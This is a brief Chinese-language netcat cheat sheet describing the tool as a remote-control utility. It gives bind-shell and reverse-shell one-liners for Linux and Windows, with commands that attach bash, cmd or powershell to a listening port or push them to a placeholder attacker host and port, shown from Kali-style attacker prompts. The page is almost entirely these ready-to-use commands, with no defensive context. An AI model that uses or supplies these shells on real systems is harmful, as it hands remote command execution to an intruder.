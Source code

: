 远程控制工具。

## 1 正向连接

侦听端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -lnvp [port] -c bash
```

```shell
[root@centos7-6 ~]# nc -lnvp [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e powershell
```

连接目标端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -nv [ip] [port]
```

```shell
┌──(root㉿kali-23)-[~]
└─# nc [host] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -nv [ip] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port]
```

## 2 反向链接

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port]
```

连接目标端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -nv [ip] [port] -c bash
```

```shell
[root@centos7-6 ~]# nc [host] [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e powershell
```

---

References

- [Netcat](https://nc110.sourceforge.io/)
